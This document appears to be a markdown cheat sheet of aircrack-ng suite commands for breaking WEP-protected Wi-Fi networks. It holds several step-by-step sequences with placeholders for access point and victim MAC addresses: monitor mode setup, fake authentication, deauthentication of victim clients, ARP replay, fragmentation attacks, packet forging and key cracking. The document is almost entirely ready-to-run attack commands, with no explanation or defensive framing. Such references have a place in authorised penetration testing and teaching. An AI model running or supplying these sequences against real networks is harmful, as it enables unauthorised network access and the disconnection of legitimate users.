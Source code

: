 **Cracking WEP with Connected Clients**
```
airmon-ng start wlan0 ( channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {disassociation attack}
aireplay-ng -3 -b (AP MAC) -h (OUR MAC) wlan0mon {ARP replay attack}
```

**Cracking WEP via a Client**
```
airmon-ng start wlan0 (channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
aireplay-ng -2 -b (AP MAC) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
aireplay-ng -2 -r (replay cap file) wlan0mon {inject using cap file}
aircrack-ng -0 -z(PTW) -n 64(64bit) filename.cap
```

**ARP amplification**
```
airmon-ng start wlan0 ( channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 500 -q 8 -a (AP MAC) wlan0mon
areplay-ng -5 -b (AP MAC) -h (OUR MAC) wlan0mon
packetforge-ng -0 -a (AP MAC) -h (OUR MAC) -k 255.255.255.255 -l 255.255.255.255 -y (FRAGMENT.xor) -w (filename.cap)
tcpdump -n -vvv -e -s0 -r (replay_dec.#####.cap)
packetforge-ng -0 -a (AP MAC) -h (OUR MAC) -k (destination IP) -l (source IP) -y (FRAGMENT.xor) -w (filename.cap)
aireplay-ng -2 -r (filename.cap) wlan0mon
```

**Cracking WEP /w shared key AUTH**
```
airmon-ng start wlan0 ( channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
~this will error out~aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {deauthentication attack}
aireplay-ng -1 60 -e (ESSID) -y (sharedkeyfile) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication /w PRGA xor file}
aireplay-ng -3 -b (AP MAC) -h (OUR MAC) wlan0mon {ARP replay attack}
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {deauthentication attack}
aircrack-ng -0 -z(PTW) -n 64(64bit) filename.cap
```

**Cracking a Clientless WEP (FRAG AND KOREK)**
> **FRAG**
```
airmon-ng start wlan0 (channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 60 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
~aireplay-ng -5 (frag attack) -b (AP MAC) -h (OUR MAC) wlan0mon
packetforge-ng -0 -a (APMAC) -h (OUR MAC) -l 255.255.255.255 -k 255.255.255.255 -y (fragment filename) -w filename.cap
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}
aireplay-ng -2 -r filename.cap wlan0mon
```
